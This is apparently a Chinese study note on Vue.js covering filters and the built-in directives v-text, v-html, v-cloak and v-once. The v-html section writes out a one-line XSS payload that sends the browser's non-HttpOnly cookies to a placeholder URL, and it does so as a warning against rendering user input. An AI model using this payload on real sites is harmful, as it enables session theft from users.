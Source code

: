 ```js
})
```

上述方法配制的是局部过滤器。

我们可以使用 `Vue.filter('name', function() {})` 配置**全局过滤器**

-> 这一操作需要在 `new Vue` 之前执行

## 11 内置指令
### v-text
> 向所在的标签插入文本 -> 意思是不如插值语法

```html
<div v-text="name">hello world！</div>
```

- `v-text` 会用变量值**完全替换**标签的文本内容（悲）
    所以说 “hello world！”就这么消失不见哩
- 此外，所有内容都会被当成**文本内容**进行解析
    使用该指令往里面丢标签的梦想破灭哩

### v-html
> 向所在标签中插入文本（可以插入标签诶！）

```html
name: "<h3>你好哇！</h3>"
<div v-html="name">hello world！</div>
-> 结果就是 <div> 里面套了一层 <h3>
```

但是该命令存在安全性问题：

  使用 `<a href=javascript:location.href="url"?+document.cookie>`  就能拿到这个浏览器下的所有 **非HTTP-only-Cookie**
  
  **不要用在用户输入上！！！可能导致 XSS 攻击！！！**

### v-cloak
> 处理 JS 脚本加载时的阻塞问题
> 
> 在 Vue 实例加载完成后将自动移除所有元素的 `v-cloak` 属性

配合一下 CSS 选择器，我们就可以隐藏所有渲染失败的差值语法组件 orz
```html
<style>
	[v-cloak] { display: none; }
</style>
<h2 v-cloak>{{name}}</h2>
```

### v-once
> 初次动态渲染，之后视为静态内容（只渲染初值）

数据的后续变动将不会引起 `<v-once>` 所在结构的更新，可用于优化性能
